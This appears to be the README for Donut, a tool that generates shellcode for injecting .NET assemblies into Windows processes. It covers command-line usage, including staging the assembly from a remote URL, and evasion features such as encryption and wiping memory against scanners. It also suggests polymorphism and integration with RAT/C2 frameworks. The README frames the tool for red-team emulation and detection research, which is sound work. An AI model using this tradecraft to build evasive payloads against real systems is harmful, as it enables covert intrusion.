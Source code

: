# Using Donut

![Alt text](https://github.com/TheWover/donut/blob/master/img/donut.PNG?raw=true "General Usage")                                                                                                               
 
Donut is a shellcode generation tool that creates x86 or x64 shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes. Given an arbitrary .NET Assembly, parameters, and an entry point (such as Program.Main), it produces position-independent shellcode that loads it from memory. The .NET Assembly can either be staged from a URL or stageless by being embedded directly in the shellcode. Either way, the .NET Assembly is encrypted with the SPECK symmetric encryption algorithm and a randomly generated key. After the Assembly is loaded through the CLR, the original reference is randomized and freed from memory to deter memory scanners. The Assembly can either be loaded into the default Application Domain or a new one (to allow for running Assemblies in disposable AppDomains).

It can be used in several ways.

## As a Standalone Tool

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```

 usage: donut [options] -f <.NET assembly> | -u <URL hosting donut module>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/

```

## As a Library

donut is provided in *.dll* and *.lib* format to be used as a library. It has a simple API that is described in *api.html*. Several exported functions are provided, including ``` int CreatePayload(PDONUT_CONFIG c) ```. They all use the PDONUT_CONFIG struct as input.

## As a Template

Part of why donut was published was to provide a template for custom shellcode generators. Since all of the logic for the shellcode is defined in *payload.c*, that logic can be customized by simply changing the *payload* source code. Once the source code is changed, use the provided makefile to rebuild *payload.exe* using any of the following options

```
make x86
make x64
make debug
make clean
```

Once the new version of *payload.exe* is built, its executable code must be extracted. This can be done with *xbin.exe*. To extract the code, run the command below:

```
xbin.exe payload.exe .text
```

This will update *payload.bin* with the new machine code. This stub represents the shellcode component loads the .NET Assembly. When *donut* is used, it will combine this .bin file with the Assembly to produce the usable shellcode.

Additional features are left as exercises to the reader. I would personally recommend:

* Add environmental keying
* Make donut polymorphic by obfuscating *payload* every time shellcode is generated
* Integrate donut as a module into your favorite RAT/C2 Framework

## Disclaimers

* No, we will not update donut to counter signatures or detections by any AV.
* We are not responsible for any misuse of this software or technique. Donut is provided as a demonstration of CLR Injection through shellcode in order to provide red teamers a way to emulate adversaries and defenders a frame of reference for building analytics and mitigations. This inevitably runs the risk of malware authors and threat actors misusing it. However, we believe that the net benefit outweighs the risk. Hopefully that is correct.

# How it works

## Procedure

Donut uses the Unmanaged CLR Hosting API to load the Common Language Runtime. If necessary, the Assembly is downloaded into memory. Either way, it is decrypted. Once the CLR is loaded into the host process, an AppDomain is prepared. Unless told to do otherwise, the shellcode will use DefaultDomain. Otherwise, a new AppDomain will be created. Once the AppDomain is ready, the .NET Assembly is loaded through AppDomain.Load_3. Finally, the Entry Point specified by the user is invoked with any specified parameters.

The logic above describes how the shellcode generated by donut works. That logic is defined in *payload.exe*. To get the shellcode, *xbin.exe* extracts the compiled machine code from *.text* in *payload.exe* and saves it to *payload.bin*. *donut.exe* uses that extracted shellcode, and combines it with a Donut Instance ( a struct wrapper for the Assembly) and a Donut Module (a struct containing the config for the shellcode). The Instance and Module are referred to using offsets rather than stored on the stack. This ensures that the shellcode may be used with any injection technique without setting up the stack manually or using an API call in the CreateThread family.

Refer to MSDN for documentation on the Undocumented CLR Hosting API: https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

For a standalone example of a CLR Host, refer to Casey Smith's AssemblyLoader repo: https://github.com/caseysmithrc/AssemblyLoader

## Components

Donut contains the following elements:

* donut.c: The source code for the donut payload generator
* donut.exe: The compiled payload generator as an EXE
* donut.py: The donut payload generator as a Python script
* donut.dll, donut.lib: Donut as a library for use in other projects
* payload.c: The source code for the shellcode
* payload.exe: The compiled payload. The shellcode is extracted from this binary file.
* xbin.cpp: Source code for xbin
* xbin.exe: Extracts the useful machine code from payload.exe so that it may be used as shellcode
* encrypt.c: Provides the source code the encryption
* loader.cs, loader.dll: An example .NET Assembly. It starts a process that was specified by a command-line argument.
* clib.c: Overrides Microsoft's definition of memset because they're a PITA and don't want to let us write our own code

Additionally, there are three companion projects provided with donut:

* DonutTest: A simple C# shellcode injector to use in testing donut. The shellcode must be base64 encoded and copied in as a string. 
* ProcessManager: A Process Discovery tool that offensive operators may use to determine what to inject into and defensive operators may use to determine what is running, what properties those processes have, and whether or not they have the CLR loaded. 
* ModuleMonitor: A proof-of-concept tool that detect CLR injection as it is done by tools such as donut and Cobalt Strike's execute-assembly.

# Project plan

Current goal: Beat the other team to publication! ;-)

* Add the option to load the .NET Assembly into a new Application Domain rather than DefaultDomain
* After the Assembly is loaded into the AppDomain (but before it is run), randomize the bytes for the decrypted Assembly and free them. This is to prevent memory scanners from picking up the presence of a DLL in the incorrect part of memory.
* Create a donut.py generator that uses the same command-line parameters as donut.exe
* Clean up the code. Remove code that is not used. Ensure code is internally documented.
* Write documentation with enough detail for users to use donut as a library/API, and for them to use it as operators trying to quickly generate shellcode for one-time use. (this is mostly already done)
* Odzhan write a blog post on the technical implementation of donut and its API. TheWover write a blog post on how to use this as an operator, how it affects red team tradecraft, and potential detection mechanisms for the technique.
